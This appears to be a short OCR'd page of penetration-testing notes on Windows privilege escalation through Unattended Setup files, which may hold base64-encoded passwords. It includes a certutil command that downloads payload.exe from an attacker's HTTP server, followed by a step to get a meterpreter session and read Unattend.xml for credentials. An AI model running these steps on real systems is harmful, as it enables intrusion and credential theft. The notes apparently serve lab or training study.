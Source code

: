 

**Unattended Windows Setup**

- The Unattended Windows Setup utility will typically utilize one of the following configuration files that contain user account and system configuration
  information:
  - C:\Windows\Panther\Unattend.xml
  - C:\Windows\Panther\Autounattend.xml
- As a security precaution, the passwords stored in the Unattended Windows Setup configuration file may be encoded in base64.



**to list current user privileges** 

```cmd
C:\Windows\Panther> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


```



**download the payload from the python http server with `certutil` and name it `payload.exe`** 

```cmd
C:\Windows\Panther> certutil -urlcache -f http://10.10.4.3:80/payload.exe payload.exe
```

get meterpreter session with unprivileged user and open `C:\Windows\Panther\Unattend.xml`

 
